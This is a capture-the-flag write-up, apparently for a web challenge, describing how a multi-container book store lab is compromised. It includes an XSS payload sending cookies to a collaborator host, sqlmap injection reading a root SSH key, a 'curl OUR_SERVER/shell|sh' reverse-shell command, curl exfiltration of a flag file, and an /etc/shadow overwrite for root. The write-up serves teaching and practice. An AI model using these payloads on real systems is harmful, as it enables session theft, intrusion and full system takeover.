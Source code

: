 In this challenge by John Hammond we are presented with a web site where we can browse book by category, author, and so on.

![[Screenshot 2024-04-05 alle 08.49.57.png]]![[Screenshot 2024-04-05 alle 08.50.03.png]]

We also have a login form but registration is not active at the moment.

![[Screenshot 2024-04-05 alle 08.51.15.png]]

Basic tampering with login form does not reveal anything, so we start with basic recon using tools like `gobuster`. 

```
/authors              (Status: 200) [Size: 3773]
/categories           (Status: 200) [Size: 7751]
/dashboard            (Status: 302) [Size: 235] [--> /login?next=%2Fdashboard]
/login                (Status: 200) [Size: 3332]
/logout               (Status: 302) [Size: 229] [--> /login?next=%2Flogout]
/register             (Status: 200) [Size: 3179]
/sitemap.xml          (Status: 200) [Size: 915]
```

We observe that we can browse

 - by category `/categories/38940c5d-6332-4328-84b3-2acef194cb8b`
 - by book inside a given category: `/categories/38940c5d-6332-4328-84b3-2acef194cb8b/books/1`

Looking at `/sitemap.xml` we notice eight categories, while in home page we only had seven. If we try to access the "hidden" category `/categories/2d340d76-cc36-4554-9d40-577e164603dd` we get an error message:

```json
{
  "error" : "Sorry, these items are not available in your region. This area is only accessible by local staff or specific geographic locations."
}
```

We can bypass this restriction adding an `X-Forwarded-For: 127.0.0.1` agent.

![[Screenshot 2024-04-05 alle 09.18.49.png]]

Moreover, we can edit books with id 7 and 8:

![[Screenshot 2024-04-05 alle 09.19.55.png]]

With this edit functionality we have a classic XXE vulnerability (that can give us /etc/hosts) and a SSRF in the coverImageUrl
With the coverImageUrl set to `http://api/swagger.json` we discover endpoints like 

```
/categories/2d340d76-cc36-4554-9d40-577e164603dd/books/7/submit-ticket-request-for-review
```

So our idea is:

1. edit book id 7 with a XSS parameter

```xml
<book>
    <title>Test Book A</title>
    <author>Alan Turing</author>
    <description>&lt;img src=x onerror="this.src='//COLLAB/?'+btoa(document.cookie); this.removeAttribute('onerror');"&gt;</description>
    <price>1.0</price>
    <publishDate>2024-02-29</publishDate>
    <coverImageUrl>http://example.com/cover7.jpg</coverImageUrl>
</book>
```

2. edit book id 8 with 
   
```xml
   <coverImageUrl>http://api/categories/2d340d76-cc36-4554-9d40-577e164603dd/books/7/submit-ticket-request-for-review</coverImageUrl>
```


Our collaborator receives a GET request with session cookies:
```
GET /?c2Vzc2l... HTTP/1.1
```

With this cookie we have access to the book store dashboard

![[Screenshot 2024-04-05 alle 09.27.23.png]]

where we see two functionalities: edit book, and apparently run commands on the db server (but we need an SSH private key which we do not have).

We probably have a SQL injection with requests like:

```
POST /add-book HTTP/1.1
title=1&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05"

{"error":"Error: 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\"2024-04-05\"\",TRUE)' at line 1"}
```

Easiest way to proceed is saving a complete HTTP request to `/add-book` endpoint and run a `sqlmap -r --batch`:

```
sqlmap identified the following injection point(s) with a total of 640 HTTP(s) requests:
---
Parameter: title (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)
    Payload: title=1" AND ELT(4932=4932,9451) AND "Wduy"="Wduy&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: title=1" AND GTID_SUBSET(CONCAT(0x717a7a6b71,(SELECT (ELT(1936=1936,1))),0x7171627a71),1936) AND "jhTF"="jhTF&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=1" AND (SELECT 9182 FROM (SELECT(SLEEP(5)))unLE) AND "Wdxu"="Wdxu&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05
```

Armed with this knowledge we get db container root ssh key: `sqlmap -r req.txt  --batch --file-read /root/.ssh/id_rsa` and we can get a reverse shell on it: 

```
POST /database-debug HTTP/1.1
...
ssh_private_key=-----BEGIN+OPENSSH+PRIVATE+KEY-----...&command=id


{"message":"Command ran successfully, output: b'uid=0(root) gid=0(root) groups=0(root)\\n'"}
```

Here we get an api admin token:

```bash
root@db:~# cat .api_admin_token.txt
JVU...
```

Now for simplicity we download a static curl binary on db container and we attack the `/other/debug-exec` endpoint on api container:

```bash
wget https://github.com/moparisthebest/static-curl/releases/download/v8.7.1/curl-amd64
chmod +x curl-amd64

./curl-amd64 -H 'Content-Type: application/json' --data '{"command":"curl OUR_SERVER:8000/shell|sh","admin_token":"JVU..."}' http://api/other/debug-exec
```


Once we have a reverse shell on api container we look at `.bash_history` where we get ssh password for accessing the main www container

```bash
root@api:~# cat .bash_history
ls
whoami
ls
cd /tmp
pwd
sshpass -p ****** ssh www-admin@www
cd
date
ls
```

We now have a couple of options:

```
www-admin@www:~$ ps -edaf
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 06:48 ?        00:00:00 /bin/sh -c service ssh start && .echo "; use 'www', 'api',
root           7       1  0 06:48 ?        00:00:00 su www-admin -c python3 -m flask run --host=0.0.0.0 --port
root           8       1  0 06:48 ?        00:00:01 python3 -m http.server --bind 127.0.0.1 80
www-adm+      15       7  1 06:48 ?        00:01:04 python3 -m flask run --host=0.0.0.0 --port=5000
root          18       1  0 06:48 ?        00:00:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root        6844      18  0 07:58 ?        00:00:00 sshd: www-admin [priv]
www-adm+    6851    6844  0 07:58 ?        00:00:00 sshd: www-admin@pts/0
www-adm+    6852    6851  0 07:58 pts/0    00:00:00 -bash
www-adm+    6859    6852  0 07:59 pts/0    00:00:00 ps -edaf


www-admin@www:~$ sudo -l
[sudo] password for www-admin:
Matching Defaults entries for www-admin on www:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-admin may run the following commands on www:
    (ALL) /usr/bin/curl 127.0.0.1/*
```

1. we have a web server running as root listening on `127.0.0.1:80`. The document root is `/app`, where we have write permissions, so we can simply link /root/flag.txt and grab the flag:
```bash
cd /app
ln -s /root/flag.txt
curl 127.0.0.1/flag.txt
```

2. we can leverage curl to exfiltrate the root flag with a command like:
   `sudo curl 127.0.0.1/=@/root/flag.txt -F data=@/root/flag.txt MY_IP:8000`

3.  we can use curl to overwrite `/etc/shadow` and get a shell as root:
```bash
cd /app
ln -s /etc/shadow
curl 127.0.0.1/shadow -o pwn
sed -i -e 's/\*//' pwn
sudo curl 127.0.0.1/pwn -o /etc/shadow
su -
root@www:~# id
uid=0(root) gid=0(root) groups=0(root)
```

![[Screenshot 2024-04-04 alle 22.37.16.png]]